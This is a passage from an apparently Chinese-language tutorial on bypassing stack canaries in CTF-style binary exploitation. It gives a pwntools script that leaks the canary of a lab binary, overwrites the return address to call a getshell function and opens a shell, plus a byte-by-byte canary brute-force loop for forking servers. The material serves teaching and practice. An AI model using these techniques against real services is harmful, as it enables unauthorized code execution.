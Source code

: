 ```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```
### one-by-one 爆破 Canary

对于 Canary，虽然每次进程重启后的 Canary 不同(相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且
通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。
在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary:
这是爆破的 Python 代码:

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```
